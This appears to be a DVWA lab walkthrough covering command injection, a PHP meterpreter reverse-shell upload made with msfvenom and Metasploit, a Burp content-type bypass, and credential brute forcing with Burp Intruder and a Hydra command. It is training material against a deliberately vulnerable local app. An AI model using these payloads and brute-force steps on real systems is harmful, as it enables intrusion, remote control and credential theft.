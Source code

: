 # DVWA 

---------------------------

## Command Injection

Command injection let you perform commands on the textbox that is intended for another task such in this case, ping a host.

Connectors can be used here to add a command which will run with the action (or not) that this textbox is intended for:

![image](https://github.com/ELRame/HackingTools/assets/82544416/88a0d631-49be-4e91-afee-22850eccc81c)

Other connectors u can use are: **&&** **&** **;**

With this in mind, and changing the difficulty on DVWA you can take a look at the source code to see if there is some character escaped/blacklisted:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d25a3f58-8f92-40e7-98db-784ea3507280)

---------------------------------

## File Upload

File upload allows you to upload a malicious file into the dvwa directory, with a reverse meterpreter connection, you will be able to run commands on it.

Run msfconsole and search for multi handler:

![image](https://github.com/ELRame/HackingTools/assets/82544416/5e93e9b8-42cf-445a-80c3-fb1750c094a6)

Select the number 30 with ````use 30```` (multi/handler) and set the payload as ````php/meterpreter/reverse_tcp````

![image](https://github.com/ELRame/HackingTools/assets/82544416/7e48c7ee-f1a0-4577-933c-d41c8c2290fc)

Then type ````show options```` to get the fields you need to fill, in this case LHOST, which can be set with ````set LHOST youripmachine```` that in this case is **127.0.0.1** (localhost) since we are running dvwa in the same machine

![image](https://github.com/ELRame/HackingTools/assets/82544416/dcbf1fde-19cd-404d-ae0e-bd91972b9b52)

After this you can create the payload for dvwa with **msfvenom** using the folloring command:

````
msfvenom -p php/meterpreter/reverse_tcp LHOST=youripmachine LPORT=4444 -f raw >malfile.php
````

![image](https://github.com/ELRame/HackingTools/assets/82544416/ea79972c-b9ef-4c1a-acf4-75a3adf10b85)

After this you can go to dvwa and upload the file, once uploaded, you have to go back to metasploit and run the command ````run```` or ````exploit```` in order to put it in listening state:

![image](https://github.com/ELRame/HackingTools/assets/82544416/9ba1a9da-0a65-46ae-b255-b11891429edd)

Now, on dvwa copy the path where the file was uploaded and put it in the url address:

![image](https://github.com/ELRame/HackingTools/assets/82544416/3eec3d74-ba1f-4f7d-ad0d-5f93f0e7a6e0)

After that, go to the url and the meterpreter session should be running:

![image](https://github.com/ELRame/HackingTools/assets/82544416/385b87cc-915d-466f-bc52-b132aec04276)

![image](https://github.com/ELRame/HackingTools/assets/82544416/cbd56dcc-72dd-4736-b78e-9e659f4a3f9e)

### Medium Difficulty

On medium, dvwa verify that the actual file is the type allowed, so for this we use burpsuite to intercept the traffic and change the type on the header before we forwarded to the browser.

First go to the extension you have for proxy and select the one you already (or you should) set up, in this case i named it BurpSuite:

![image](https://github.com/ELRame/HackingTools/assets/82544416/4d6e681e-dd19-4e64-8d92-2e4fc80afb50)

After that, on BuprSuite go to **proxy** manu and turn on the intercept option:

![image](https://github.com/ELRame/HackingTools/assets/82544416/1bbbdfdd-a2ef-4ec7-9748-e4e3b330ce05)

Then go to upload the file and press upload, this make burpsuite pop up with the header, find the **type** and change it for ````image/jpeg````, then click in the **forward** button:

![image](https://github.com/ELRame/HackingTools/assets/82544416/ad1f49b5-faa5-4a3e-96b7-fe3aba14750d)

![image](https://github.com/ELRame/HackingTools/assets/82544416/9e996c60-524d-4abe-b6b7-7e5f89c1dfb8)

Now just follow the same steps than the first example and you'll have a meterpreter session.

------------------------------------

## Brute Force

To brute force credentials on dvwa we are goin to use BurpSuite and also Hydra:

First set difficulty to low, go to bruteforce tab, and turno on your foxyproxy extension and Burpsuite intercept on, put any credentials and click on submit:

![image](https://github.com/ELRame/HackingTools/assets/82544416/24b4ebac-1eb5-4d3d-8425-e7f4475eb154)

Right click on burpsuite interception and choose sent to intruder. Once you get there, just clear the variables and select only the password:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d9d65d86-e592-4f30-81f7-c14b9fdf7f56)

Then click on the payloads tab and load your wordlist:

![image](https://github.com/ELRame/HackingTools/assets/82544416/68262b59-3f3c-4213-8263-41cd39856f7f)

Click on Start attack and sort the information by asc length, the first one you found with different length, that's the password:

![image](https://github.com/ELRame/HackingTools/assets/82544416/a823c154-2bca-496a-9a40-9ba0f189a1b6)

And you are done

**Hydra**

````
hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://127.0.0.1:42001/vulnerabilities/brute/:username=^USER
^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=CookieSession; security=low:F=Username and/or
password incorrect' -I
````

### High difficulty

Here we need to follow the same steps until we sent the interception to the intruder, there, we change the attack type to "PitchFork" and select as target both password and user_token field:

![image](https://github.com/ELRame/HackingTools/assets/82544416/0e63b203-9aa0-42dc-ba8e-81abd946413b)

Select the wordlist and after that change the set payload:

![image](https://github.com/ELRame/HackingTools/assets/82544416/b9fa4999-482e-477a-8df0-c7638ffb1020)

Now go to Setting tab and go to Grep Extract option and click on add, there click on fetch response and look for the token, select it and click in ok button:

![image](https://github.com/ELRame/HackingTools/assets/82544416/dc40bd3e-f1f8-4d48-91c4-a4c5767ca45b)

In Grep Match option click on clear button and then add "Incorrect"

![image](https://github.com/ELRame/HackingTools/assets/82544416/6b6f6f27-22e5-430f-98d2-fb1269ee4b46)

Set Redirection option to Always:

![image](https://github.com/ELRame/HackingTools/assets/82544416/559ec62c-f3c9-47c5-ade8-edc97e3c8692)

After that, go to Resource Pool, add a new pool and set the limit to 1 and click on start attack:

![image](https://github.com/ELRame/HackingTools/assets/82544416/7cdc21ae-d3ea-47c7-970d-1741e2e0e8e1)

After this, should have the pass:

![image](https://github.com/ELRame/HackingTools/assets/82544416/874b2e8b-637a-4a13-8116-54f8822ba545)
